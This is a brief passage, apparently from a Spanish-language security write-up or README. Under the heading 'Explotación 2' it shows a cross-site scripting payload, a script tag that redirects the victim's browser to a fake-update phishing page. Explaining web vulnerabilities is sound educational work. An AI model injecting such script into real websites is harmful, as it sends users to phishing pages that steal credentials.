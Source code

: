   <img src="/Imagenes/3.png" width="500">
</div>

**Explotación 2**

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

<div align="center">